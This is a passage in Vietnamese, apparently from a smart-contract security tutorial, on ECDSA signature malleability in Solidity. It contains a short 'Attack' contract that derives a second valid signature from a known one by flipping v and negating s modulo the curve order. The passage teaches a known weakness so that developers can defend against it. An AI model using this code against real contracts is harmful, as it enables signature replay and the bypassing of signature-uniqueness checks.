 Trong ví dụ trên, hàm `verify` băm giá trị `_messageHash` theo chuẩn được nêu trong EIP-191 @eip-191 rồi gọi hàm `recoverSigner` để khôi phục địa chỉ người ký từ giá trị băm và chữ ký.

Các dòng mã hợp ngữ trong hàm `recoverSigner` được dùng để tách giá trị `_sig` thành các giá trị $r$, $s$ và $v$. Với $v$ là giá trị giúp việc khôi phục địa chỉ người ký dễ dàng hơn. Nếu địa chỉ trả về từ hàm `ecrecover` khớp với đối số truyền vào tham số `_expectedSigner` của hàm `verify` thì chữ ký là hợp lệ.

Kẻ tấn công có thể xây dựng smart contract như sau:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attack{

  function manipulateSignature(bytes memory signature) public pure returns(bytes memory) {
    (uint8 v, bytes32 r, bytes32 s) = splitSignature(signature);

    uint8 manipulatedV = v % 2 == 0 ? v - 1 : v + 1;
    uint256 manipulatedS = modNegS(uint256(s));
    bytes memory manipulatedSignature = abi.encodePacked(r, bytes32(manipulatedS), manipulatedV);

    return manipulatedSignature;
  }

  function splitSignature(bytes memory sig) public pure returns (uint8 v, bytes32 r, bytes32 s) {
    require(sig.length == 65, "Invalid signature length");
    assembly {
      r := mload(add(sig, 32))
      s := mload(add(sig, 64))
      v := byte(0, mload(add(sig, 96)))
    }
    if (v < 27) {
      v += 27;
    }
    require(v == 27 || v == 28, "Invalid signature v value");
  }

  function modNegS(uint256 s) public pure returns (uint256) {
    uint256 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;        
    return n - s;
  }

}
```

Có thể thấy, hàm `manipulateSignature` tách các thành phần $r$, $s$ và $v$ từ `signature` thông qua hàm `splitSignature`. Sau đó, nó chỉnh sửa giá trị của $v$ sao cho nếu $v$ là chẵn thì trừ đi 1 còn nếu $v$ là lẻ thì cộng thêm 1. Giá trị $s$ sẽ được chỉnh sửa thành $-s mod n$ (được tính thông qua hàm `modNegS`). Cuối cùng, ba giá trị $r$, $s$ và $v$ được ghép lại thành chữ ký thông qua hàm `abi.encodePacked`.

Như vậy, nếu kẻ tấn công biết được một chữ ký hợp lệ thì có thể dùng hàm `manipulateSignature` để tạo ra một chữ ký hợp lệ khác.
